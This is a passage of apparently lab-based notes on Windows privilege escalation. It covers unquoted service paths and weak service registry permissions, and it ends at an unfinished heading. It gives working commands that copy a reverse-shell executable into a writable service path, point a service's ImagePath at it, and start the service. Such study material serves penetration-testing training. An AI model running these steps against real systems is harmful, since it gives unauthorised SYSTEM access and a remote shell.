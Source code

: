 ### unquoted service path

---

Query `unquotedsvc` service:

```
sc qc unquotedsvc
```

Check if it runs with SYSTEM privileges (SERVICE_START_NAME), also check if BINARY_PATH_NAME is unquoted and contains spaces

Check permissions for Unquoted Path Service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
```

BUILTIN\Users group is allowed to write to the directory.

Copy exploit:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

Run service:

```
net start unquotedsvc
```

### weak registry perms

---

```
sc qc regsvc
```

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Check if registry service is writable by INTERACTIVE group (all logged-on users)

Overwrite ImagePath registry key to reverse.exe:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

### insecure service executables

---
